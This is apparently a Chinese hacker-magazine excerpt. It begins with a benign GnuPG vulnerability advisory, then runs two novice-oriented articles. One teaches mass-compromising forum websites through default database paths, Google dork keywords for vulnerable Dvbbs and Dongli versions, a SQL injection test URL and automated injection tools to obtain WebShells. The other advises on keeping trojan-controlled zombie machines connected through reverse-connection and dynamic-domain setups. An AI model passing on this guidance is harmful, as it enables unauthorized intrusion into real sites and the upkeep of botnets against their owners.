GnuPG 是基于 OpenPGP 标准的 PGP 加密、解密、签名工具。

GnuPG 在处理畸形 OpenPGP 消息时存在漏洞，远程攻击者可能利用此漏洞在用户机器上执行任意指令。

GnuPG 使用被称为过滤器的数据结构处理 OpenPGP 消息，这些过滤器的使用方法类似于 shell 中的命名管道。对于这些过滤器的通信，需要使用上下文（context）结构。通常上下文结构是分配在栈上的，并传递给过滤器函数。在大多数情况下，解除分配上下文结构之前就会关闭传送给这些过滤器的 OpenPGP 数据流，但在解密加密报文时有时可能会出现意外，过滤器可能会使用填充了攻击者可控数据的无效上下文结构。过滤器上下文中包含有底层解密访问解密算法所使用的其他上下文，可以通过函数指针来实现这种调用。如果攻击者创建了特制 OpenPGP 消息的话，就可以控制这个函数指针，调用进程中的任意函数。

厂商补丁：  
GNU

目前厂商已经发布了升级补丁以修复这个安全问题，请到厂商的主页下载：ftp://ftp.gnupg.org/gcrypt/gnupg/gnupg-1.4.6.tar.bz2

RedHat

RedHat 已经为此发布了一个安全公告（RHSA-2006:0754-01）以及相应补丁：  
RHSA-2006:0754-01: Important: gnupg security update  
链接：http://lwn.net/Alerts/212955

## 新年送肉鸡

肉鸡简单抓

> **抓鸡首语：**
>
> 新年终于到了，大伙赶快抓点鸡做年货吧。不会抓鸡？那就看看新年送上的肉鸡大餐啊。经过了这么长时间的学习，各位小黑的抓鸡本领一定是突飞猛进，快动起手来吧，祝愿大家在新的一年里开心多多，肉鸡多多。

crazyshell

从本文中你可以学到：
- 一、利用默认设置抓鸡
- 二、利用论坛漏洞抓鸡
- 三、通过漏洞数据库抓肉鸡

### 一、前言

我们学校迎接评估结束了，命差点给整丢了！呵呵，新年到了，应一个朋友要求，多送点肉鸡给小菜们过个肉鸡年……如果能抓到几百只的，到时候，就下锅烧鸡汤卖吧！^_^

### 二、抓鸡行动

今天介绍一下简单抓鸡的几种方法，至于大家能抓多少只鸡，那就看大家的能力和无聊程度了。

### 1. 默认设置抓鸡

我这里提的默认设置是默认数据库、默认用户名密码以及默认后台等。比如动网 7 的默认数据库为 /data/dvbbs7.mdb，那么，通过动网的关键字，就可以找到一定数量的存在默认设置的网站了，通过下载默认数据库、后台默认用户名密码登录等，就可以很轻松地进入后台了。

### 2. 动网还抓新肉鸡

动网漏洞虽然过去那么久了，但是危害仍然严重，不信吗？跟我来吧！

默认数据库和用户名密码这些，我们就不提了，大家应该都很熟悉了。动网上传漏洞，估计也很少了，因为大部分都打 SP2。不过，大家应该都还记得那个动网前台提权和后台暴密码漏洞吧？呵呵，不记得的话，我再来啰嗦几句。因为这两个漏洞在 7.0 SP2 的利用成功率很高，所以，今天就以 7.0 SP2 来抓鸡吧。

好，首先定位关键字：
- Powered By ;Dvbbs Version 7.0.0 SP2
- Powered By ;Dvbbs Version 7.0.0
- 精华帖子 投票帖子 Powered By ;Dvbbs Version 7.0.0
- Powered By ;Dvbbs Version 7.0.0 sp2 美化版
- Powered By ;Dvbbs Version 7.0.0 sp2 51dsn 美化版
- Powered By ;Dvbbs Version 7.0.0 Sp2 E网先锋美化版
- Powered By ;Dvbbs Version 7.0.0 sp2 异度空间美化版 V2.0
- Powered By ;Dvbbs Version 7.0.0 sp2 云林美化版 7.0
- Powered By ;Dvbbs Version 7.0.0 sp2 海讯美化版
- Powered By ;Dvbbs Version 7.0.0 Sp2 Sql

上面是我搜索动网 7.0.0 SP2 的关键字，7.0.0 没打补丁的不容易搜到。不信的话，你可以定位“Powered By ;Dvbbs Version 7.0.0”试一下。用上面的关键字搜出来的结果都是 SP2 的，如果你能从刚才那个关键字搜到 7.0.0 没打 SP2 补丁的，那么只能说明你有超凡的耐心。利用以上的关键字，每次搜出来的站点一般会有所不同，比如我用“Powered By ;Dvbbs Version 7.0.0 SP2”和“精华帖子 投票帖子 Powered By ;Dvbbs Version 7.0.0”搜索出来的结果就有所不同，如图 1、图 2 所示。

不过全部都是 7.0.0 SP2 的，然后我就对搜索到的鸡进行测试了。那么，搜索到可能存在漏洞的网站了，如何进行测试呢？可以这么做。一般，动网站漏洞一出来，没过多久就会有人做出动画的，现在仅对不知道如何进行测试的朋友说一下方法，可以到百度搜索测试方法。比如，这漏洞的攻击方法可以叫“动网前台提权”，那么到百度搜索，如图 3 所示。



图 1 搜索出来的结果

搜出来的结果，都看到了吧，有牛人做出来的动画叫做“动网前台提权 + 后台暴密码拿 WebShell”，那么即使不知道用什么方法测试的话，现在搜索一下就能得到结果了。是不是很爽？因为这个测试方法有很多人做出动画了，如果不懂的可以到 http://www.gz235.com/Soft/21/57/2006/Soft_26022.htm 去下载。这里不再啰嗦！



图 2 搜索出来的结果

从这里，刚学的朋友，应该要学着总结一下，比如，其他脚本系统的漏洞呢？动易、动力等，像这些东西都有关键字可查找的，如动力 3.51 的“Powered by:MY Power Ver 3.51”，那么，动力 3.51 有没有漏洞呢？很简单，百度搜“动力 3.51 漏洞”。



图 3 百度的搜索结果

一些关于动力 3.51 的漏洞分析和利用方法就可以搜出来了，即便是零基础，看别人写的文章、做的动画来参考，就可以简单拿 WebShell 了。学习过程要学会总结！

### 3. 根据漏洞数据库抓鸡

记得以前 BCT 有个漏洞数据库。不过，改版之后就一直没看到了。最近上网发现 blackwoods 也开了个漏洞数据库（我很少到 blackwoods，不过开了数据库就另当别论了），好像这个数据库就是原来 BCT 的那个数据库（不过少了搜索功能）。有 webbug 数据库、exploit 数据库、GOOGLEHACK 数据库，如图 4 所示。



我比较关注 webbug，打开 webbug 中的漏洞文章，比如我打开的是关于“动力文章存在打印注入漏洞”，如图 5 所示。

打开后就有一些必要的介绍，“动力文章的 Article_Print.asp 由于过滤不严导致可以构造注入，测试如下：http://www.cnbct.net/Article_Print.asp?ArticleID=250 and 1=1”，那么，现在可以利用关键字来抓鸡了。关键字就可以这么构造：inurl:article_print.asp?articleid=，到 Google 里搜索一下，如图 6。

看到没有？约有 1,240,000 项符合。哇！发财啦！这样一个个地测试是否存在漏洞，固然有一些繁琐，我这里介绍一个比较简单的办法，用啊 D 的注入工具或者明哥的注入工具打开 Google 进行搜索，如图 7。



看到了吧，这种方法是高效率的抓鸡方法。至于 domain 的用法，相信大家都不会陌生了。这里不再啰嗦。

这个漏洞数据库包含了很多脚本系统的漏洞，不过，一些利用办法可能相对讲得比较简单，一些刚学的朋友，可能不知道怎么利用，没关系！可以这么做，还以“动力文章存在打印注入漏洞”为例，在百度输入“动力文章存在打印注入漏洞”，或者另外定关键字，比如“动力文章打印注入漏洞利用”等，这样就可以看一些高手写的文章了，如图 8。

然后，找到有利用方法的链接，打开，如图 9。



这样，即使什么都不懂，看别人的利用方法也可以搞网站了。

### 4. 根据黑客杂志抓鸡

目前国内的几个黑客杂志，比如《黑客手册》，每一期都会有一两个网站系统漏洞公布，大家多看杂志，就能知道一些漏洞的利用了。

## 三、新年祝福

本文就算结束了，感谢大家看完我的文章，至于大家能抓多少鸡，看你们的能力了。

新年到了，祝大家新年肉鸡多多，健康多多！快乐多多，进步多多！

> **编辑点评：**通过默认设置和最新的脚本漏洞抓肉鸡，这不失为是一种好方法。新漏洞一出，总有许多手脚慢的管理员，这就爽了我们小菜了，快点找漏洞，开工吧。








## 肉鸡加固大盘点

天涯哀草

从本文中你可以学到：
- 一、了解常见的反弹连接方式
- 二、利用自己的电脑更新 IP

上网捕捉肉鸡，是黑客最常做的一件事。有了属于自己的肉鸡，我们可以用作网络僵尸、制作跳板、制作代理服务器等。但是很多黑客爱好者都有这样的经历，就是头一天通过各种方法捕捉到大量的肉鸡后，第二天上网发现肉鸡已经所剩无几了。那么到底是什么原因造成肉鸡短时间大量流失的呢？有没有一种好的方法来加固自己的肉鸡，让肉鸡想飞也飞不了呢？

### 一、各种连接方式的优势

之所以出现肉鸡大量丢失的情况，最主要的原因有两种：第一是服务端程序被杀，所以这只肉鸡就“英勇就义”了；第二就是服务端和客户端的连接方式上出现了问题，以至于肉鸡找不到回家的路了。关于第一种情况，大家只需要参照《黑客免杀班》的内容对自己的服务端程序进行免杀处理即可。下面我们要谈谈连接方式上容易出现的问题，这也是不太引人关注的问题。

首先我们需要明确的是，现在主流的木马程序基本都采用的是反弹连接这种方式。而反弹连接又包括三种常见的类型，分别是域名反弹、空间反弹和专用上线。其中的“专用上线”方式是木马作者为注册用户专门提供的，比如灰鸽子的注册用户就可以采用这种连接方式。专用上线方式无须知道客户端的 IP 地址，自动上线功能会让服务端自动上线来连接客户端。用户只需要在“用户名”和“登录密码”选项中，输入自己的用户名和密码即可。这种连接方式最大的优点就是无须用户注册域名或拥有网站空间就能使用，不过在专用上线系统出现故障时，就会出现肉鸡丢失的可能，同时还需要支付一定的费用。

出现上面这种情况，常见的“域名反弹”和“空间反弹”就派上了用场。“域名反弹”这种方式可能是最简单的一种反弹连接方式，它基本不需用户花费什么，只需要用户注册一个免费的域名即可。但是这种方式也是这三种方式中最不稳定的一种，由此也是造成肉鸡丢失的原因。早期的木马程序在自己的“自动上线”面板中都会包括一个免费域名的申请功能，使用最广泛的免费域名就是网易的 yeah.net 和 126.com。可惜现在网易的免费域名已经停止注册，所以造成很多用户的肉鸡大面积丢失。

如果你有网页空间的话，或者在本地硬盘中架设有 FTP 服务的话，也可以使用“空间反弹”这种方式。这种方式是最早的反弹连接方式之一，曾经为“网络神偷”这款木马程序首创。虽然这种方式较“域名反弹”这种方式更加稳定，但是并不是每个用户都有自己的网页空间，即使是能够申请到免费的网页空间，也因为种种原因在很长一段时间内被人们忽视。即使是拥有网页空间的用户，也因为各种各样的限制，以及这些网页空间常常“朝不保夕”，所以也使自己的肉鸡成为“一次性”的。

### 二、打造坚固的“鸡舍”

从前面我们已经看到各种连接类型的优势，所以我们要取长补短，发扬各种连接类型的优势。从前面我们已经知道，“空间反弹”这种方式是最稳定的连接类型，所以我们可以在本地磁盘架设一个空间。要知道自己架设的空间，首先不会有各种限制，同时也利于自己的管理。但是现在新的问题又出现了，由于个人用户都是拨号上网，所以每次上网的 IP 地址都会不一样，怎么才能让服务端程序自动连接新的 IP 地址呢？呵呵，其实很简单，动态域名就可以解决这个问题。下面我们就来打造一个属于自己的，并且是独一无二的坚固“鸡舍”。

